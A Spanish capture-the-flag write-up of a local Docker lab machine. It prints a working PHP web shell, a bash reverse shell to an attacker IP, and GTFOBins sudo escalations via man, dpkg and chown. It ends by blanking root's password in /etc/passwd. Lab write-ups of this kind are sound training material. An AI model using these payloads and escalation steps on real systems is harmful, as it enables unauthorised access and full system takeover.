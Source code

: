 Fecha: 03/09/2024

Comienzo haciendo el escaneo, encontrando ftp en el puerto 21 y un apache en el 80, no siendo ninguna de las dos versiones vulnerable según seachsploit. 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.3 -oN scan
```

![](Imágenes/Pasted%20image%2020240903185122.png)

Lo primero que haré es fuzzing para buscar páginas con información relevante:
```bash 
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.3/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](Imágenes/Pasted%20image%2020240903185722.png)
Por lo que parece, lo que hay en el servicio ftp y lo que está en el servidor apache es lo mismo. Probaré por tanto a subir una shell de php como hice en la máquina [Dockerlabs](Dockerlabs.md): 

```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Subo el fichero en cuestión: 
![](Imágenes/Pasted%20image%2020240903190414.png)
Ahora ya puedo acceder a esta linea de comandos desde el buscador, así que me abro una reverse shell:
![](Imágenes/Pasted%20image%2020240903190436.png)

```bash
# En la shell virtual:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# En mi máquina atacante:
nc -lvnp 9001
```

Lo primero que haré será tratar la tty: 
```bash
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

![](Imágenes/Pasted%20image%2020240903192511.png)
![](Imágenes/Pasted%20image%2020240903192817.png)

Ahora miro los permisos que tengo: 
![](Imágenes/Pasted%20image%2020240903192933.png)

Encuentro una forma de usar sudo con man para escalar privilegios: https://gtfobins.github.io/gtfobins/man/#sudo

```bash
sudo -u pingu man man 
!/bin/bash
```

Ahora miro qué permisos tengo como pingu:
![](Imágenes/Pasted%20image%2020240903193115.png)

Uso dpkg: https://gtfobins.github.io/gtfobins/dpkg/#sudo

```bash
sudo -u gladys dpkg -l 
!/bin/bash
```

![](Imágenes/Pasted%20image%2020240903193300.png)

Y, finalmente, como gladys, puedo usar chown para convertirme en superusuario https://gtfobins.github.io/gtfobins/chown/#sudo:

![](Imágenes/Pasted%20image%2020240903193354.png)

```bash
# Hago que todo el directorio sea mio
sudo chown gladys:gladys /etc
# Edito la linea en la que especifica la contraseña del root, dejándola vacía
sed -i 's/root:x:/root::/g' /etc/passwd


```

![](Imágenes/Pasted%20image%2020240903193807.png)

![](Imágenes/Pasted%20image%2020240903193942.png)
